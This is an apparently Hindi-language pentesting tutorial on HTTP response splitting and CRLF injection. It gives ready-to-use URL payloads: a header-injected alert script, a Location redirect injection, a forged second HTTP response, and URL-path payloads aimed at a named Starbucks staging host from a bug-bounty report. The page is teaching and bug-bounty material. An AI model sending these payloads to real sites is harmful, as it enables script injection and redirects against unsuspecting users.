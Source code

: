 HTTP Response Splitting एक सुरक्षा कमजोरी है जो तब उत्पन्न होती है जब एक हमलावर HTTP प्रतिक्रियाओं की संरचना का लाभ उठाता है। यह संरचना हेडर को शरीर से अलग करती है एक विशेष वर्ण अनुक्रम का उपयोग करके, Carriage Return (CR) के बाद Line Feed (LF), जिसे सामूहिक रूप से CRLF कहा जाता है। यदि एक हमलावर प्रतिक्रिया हेडर में CRLF अनुक्रम डालने में सफल होता है, तो वे प्रभावी रूप से बाद की प्रतिक्रिया सामग्री को हेरफेर कर सकते हैं। इस प्रकार की हेरफेर गंभीर सुरक्षा समस्याओं का कारण बन सकती है, विशेष रूप से Cross-site Scripting (XSS)।

#### XSS through HTTP Response Splitting

1. एप्लिकेशन एक कस्टम हेडर सेट करता है जैसे: `X-Custom-Header: UserInput`
2. एप्लिकेशन `UserInput` के लिए मान को एक क्वेरी पैरामीटर, जैसे "user\_input" से लाता है। उचित इनपुट मान्यता और एन्कोडिंग की कमी वाले परिदृश्यों में, एक हमलावर एक पेलोड तैयार कर सकता है जिसमें CRLF अनुक्रम शामिल होता है, उसके बाद दुर्भावनापूर्ण सामग्री होती है।
3. एक हमलावर एक विशेष रूप से तैयार की गई 'user\_input' के साथ एक URL तैयार करता है: `?user_input=Value%0d%0a%0d%0a<script>alert('XSS')</script>`
* इस URL में, `%0d%0a%0d%0a` CRLFCRLF का URL-encoded रूप है। यह सर्वर को CRLF अनुक्रम डालने के लिए धोखा देता है, जिससे सर्वर बाद के भाग को प्रतिक्रिया शरीर के रूप में मानता है।
4. सर्वर हमलावर के इनपुट को प्रतिक्रिया हेडर में दर्शाता है, जिससे एक अनपेक्षित प्रतिक्रिया संरचना उत्पन्न होती है जहां दुर्भावनापूर्ण स्क्रिप्ट को ब्राउज़र द्वारा प्रतिक्रिया शरीर के भाग के रूप में व्याख्यायित किया जाता है।

#### An example of HTTP Response Splitting leading to Redirect

From [https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62](https://medium.com/bugbountywriteup/bugbounty-exploiting-crlf-injection-can-lands-into-a-nice-bounty-159525a9cb62)

Browser to:
```
/%0d%0aLocation:%20http://myweb.com
```
और सर्वर हेडर के साथ प्रतिक्रिया करता है:
```
Location: http://myweb.com
```
**अन्य उदाहरण: (से** [**https://www.acunetix.com/websitesecurity/crlf-injection/**](https://www.acunetix.com/websitesecurity/crlf-injection/)**)**
```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
#### In URL Path

आप **URL पथ के अंदर** पेलोड भेज सकते हैं ताकि सर्वर से **प्रतिक्रिया** को नियंत्रित किया जा सके (उदाहरण [यहां](https://hackerone.com/reports/192667)):
```
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```
Check more examples in:

{% embed url="https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md" %}
